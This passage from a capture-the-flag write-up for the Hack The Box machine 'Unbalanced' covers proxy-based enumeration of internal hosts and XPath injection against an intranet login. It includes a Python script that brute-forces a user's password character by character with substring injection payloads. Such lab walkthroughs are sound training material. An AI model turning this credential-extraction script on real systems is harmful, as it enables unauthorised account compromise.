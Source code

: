 With this we found that there are number of different range of hostname and there were some IPs starting with `172.*.*.*` which was suspicious as from experience it looks like docker instance IP address. Accessing the URL `172.31.179.1` as part of my enumeration added them in `/etc/hosts` and I found the same authentication as before.

![Untitled](/img/htb-unbalanced/Untitled%207.png)

This time I tried Sqli using Basic Authentication Bypass. Make sure you set upstream Proxy in Burp.

![Untitled](/img/htb-unbalanced/Untitled%208.png)

Here I got a payload with different length so let's send to repeater and check what's there.

![Untitled](/img/htb-unbalanced/Untitled%209.png)

We got some Users, their roles and mail address.

![Untitled](/img/htb-unbalanced/Untitled%2010.png)

I check that in website too.

![Untitled](/img/htb-unbalanced/Untitled%2011.png)

It seems SQL Injection but its not.

## Getting User Shell

After some enumeration I came to know its X-Path Injection.

![Untitled](/img/htb-unbalanced/Untitled%2012.png)

Reference:

- [https://owasp.org/www-community/attacks/XPATH_Injection](https://owasp.org/www-community/attacks/XPATH_Injection)

Using `substring` we can bruteforce the Passwords.

I just made a quick Bruteforce which will find the password for us. I used user `bryan` because he is the System Administrator.

```python
import requests

junk= ['a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','!','@',"#","$","%","&","_","-","1","2","3","4","5","6","7","8","9","0"]
i=1

def payload(password):
	data = {"Username":"bryan","Password":"{}' and Username='bryan".format(password)}
	r = requests.post('http://172.31.179.1/intranet.php', data=data, proxies={ "http": "http://10.10.10.200:3128" })
	return r.text.find("Bryan") != -1

trash=""
while True:
	for x in junk:
		if payload("' or substring(Password,{},1)='{}".format(i,x)):
			trash+=x
			i=i+1
			print("> ",trash)
```

